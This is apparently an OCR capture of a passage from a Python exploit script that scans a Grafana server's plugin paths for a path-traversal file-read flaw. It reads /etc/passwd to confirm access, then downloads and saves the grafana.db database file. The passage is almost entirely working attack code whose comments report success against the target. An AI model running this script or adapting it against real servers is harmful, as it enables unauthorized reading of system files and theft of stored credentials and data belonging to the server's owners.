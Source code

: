 ```python
               | (_ | | '_| / _` | |  _| / _` | | ' \  / _` |    |  / / -_) / _` | / _` |   | _|  | | | | / -_)
               \___| |_|   \__,_| |_|   \__,_| |_||_| \__,_|  |_|_\ \___| \__,_| \__,_| |_|   |_| |_| \___|
                                                                                                 

                                                                                                 
                                     Author: Henry4E36
               """)


class information(object):
    def __init__(self, args):
        self.args = args
        self.url = args.url
        self.file = args.file

    def target_url(self):
        lists = ['grafana-clock-panel', 'alertGroups', 'alertlist', 'alertmanager', 'annolist', 'barchart', 'bargauge',\
                'canvas', 'cloudwatch', 'cloudwatch', 'dashboard', 'dashboard', 'dashlist', 'debug', 'elasticsearch',\
                'gauge','geomap', 'gettingstarted', 'grafana-azure-monitor-datasource', 'grafana', 'graph', 'graphite',\
                 'graphite', 'heatmap', 'histogram', 'influxdb', 'jaeger', 'live', 'logs', 'logs', 'loki', 'mixed', \
                 'mssql', 'mysql', 'news', 'nodeGraph', 'opentsdb', 'piechart', 'pluginlist', 'postgres', 'prometheus',\
                 'stat', 'state-timeline', 'status-history', 'table-old', 'table', 'tempo', 'testdata', 'text', \
                 'timeseries', 'welcome', 'xychart', 'zipkin']
        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0",
        }

        # proxies = {
        #     "http": "http://127.0.0.1:8080",
        #
        # }
        for i in lists:
            target_url = self.url + f"/public/plugins/{i}/%23/../..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd"
            try:
                res = requests.get(url=target_url, headers=headers, verify=False, timeout=5)
                if res.status_code == 200 and "root:" in res.text:
                    print(f"\033[31m[{chr(8730)}] 目标系统: {self.url}的{i}插件存在任意文件读取\033[0m")
                    print(f"[-] 尝试读取DB文件:")
                    db_url = self.url + f"/public/plugins/{i}/%23/../..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/var/lib/grafana/grafana.db"
                    try:
                        res_db = requests.get(url=db_url, headers=headers, verify=False, timeout=25)
                        if res_db.status_code == 200 and "SQLite format" in res_db.text:
                            a = time.time()
                            with open(f'{a}.db', "w") as f:
                                f.write(res_db.text)
                            f.close()
                            print(f"\033[31m[{chr(8730)}] 成功读取DB文件，信息保存在{a}.db文件中\033[0m")
                        else:
                            print(f"[-] 读取DB文件失败")
                    except Exception as e:
                        print("[\033[31mX\033[0m] 读取DB文件错误,可能与请求时间有关!")
```